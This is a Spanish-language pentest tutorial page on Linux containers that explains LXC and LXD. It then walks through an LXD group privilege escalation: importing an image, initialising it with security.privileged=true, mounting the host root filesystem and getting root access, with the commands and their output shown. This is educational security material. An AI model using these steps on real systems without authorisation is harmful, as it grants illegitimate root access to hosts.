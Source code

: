 # Containers
Los Containers operan a nivel del sistema operativo y las máquinas virtuales a nivel del hardware. Por lo tanto, los containers comparten un sistema operativo y aíslan los procesos de la aplicación del resto del sistema, mientras que la virtualización clásica permite que múltiples sistemas operativos se ejecuten simultáneamente en un solo sistema.

La aislamiento y la virtualización son esenciales porque ayudan a gestionar los recursos y aspectos de seguridad de la manera más eficiente posible. Por ejemplo, facilitan la monitorización para encontrar errores en el sistema que a menudo no tienen nada que ver con las aplicaciones desarrolladas recientemente. Otro ejemplo sería el aislamiento de procesos que generalmente requieren privilegios de root. Tal aplicación podría ser una aplicación web o una API que debe estar aislada del sistema host para evitar la escalación a bases de datos.

---

## Linux Containers

Linux Containers (`LXC`) es una técnica de virtualización a nivel del sistema operativo que permite que múltiples sistemas Linux se ejecuten en aislamiento unos de otros en un solo host, teniendo sus propios procesos pero compartiendo el kernel del sistema host. `LXC` es muy popular debido a su facilidad de uso y se ha convertido en una parte esencial de la seguridad de TI.

Por defecto, `LXC` consume menos recursos que una máquina virtual y tiene una interfaz estándar, lo que facilita la gestión de múltiples containers simultáneamente. Una plataforma con `LXC` incluso puede organizarse en múltiples nubes, proporcionando portabilidad y asegurando que las aplicaciones que se ejecutan correctamente en el sistema del desarrollador funcionarán en cualquier otro sistema. Además, grandes aplicaciones pueden ser iniciadas, detenidas o sus variables de entorno cambiadas a través de la interfaz del Linux container.

La facilidad de uso de `LXC` es su mayor ventaja en comparación con las técnicas de virtualización clásicas. Sin embargo, la enorme expansión de `LXC`, un ecosistema casi omnipresente y herramientas innovadoras, se deben principalmente a la plataforma Docker, que estableció los containers de Linux. Toda la configuración, desde la creación de plantillas de containers y su despliegue, la configuración del sistema operativo y el networking, hasta el despliegue de aplicaciones, sigue siendo la misma.

### Linux Daemon

Linux Daemon ([LXD](https://github.com/lxc/lxd)) es similar en algunos aspectos, pero está diseñado para contener un sistema operativo completo. Por lo tanto, no es un application container sino un system container. Antes de que podamos usar este servicio para escalar nuestros privilegios, debemos estar en el grupo `lxc` o `lxd`. Podemos averiguarlo con el siguiente comando:

```r
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

A partir de aquí, hay varias formas en las que podemos explotar `LXC`/`LXD`. Podemos crear nuestro propio container y transferirlo al sistema objetivo o usar un container existente. Desafortunadamente, los administradores a menudo usan plantillas que tienen poca o ninguna seguridad. Esta actitud tiene la consecuencia de que ya tenemos herramientas que podemos usar contra el sistema nosotros mismos.

```r
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Tales plantillas a menudo no tienen contraseñas, especialmente si son entornos de prueba simples. Estos deben ser rápidamente accesibles y fáciles de usar. El enfoque en la seguridad complicaría toda la iniciación, lo haría más difícil y, por lo tanto, lo ralentizaría considerablemente. Si tenemos un poco de suerte y hay un container así en el sistema, se puede explotar. Para esto, necesitamos importar este container como una imagen.

```r
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

Después de verificar que esta imagen se ha importado correctamente, podemos iniciar la imagen y configurarla especificando el flag `security.privileged` y la ruta root para el container. Este flag desactiva todas las funciones de aislamiento que nos permiten actuar en el host.

```r
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Una vez que hemos hecho eso, podemos iniciar el container e iniciar sesión en él. En el container, podemos ir a la ruta que especificamos para acceder al `resource` del sistema host como `root`.

```r
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```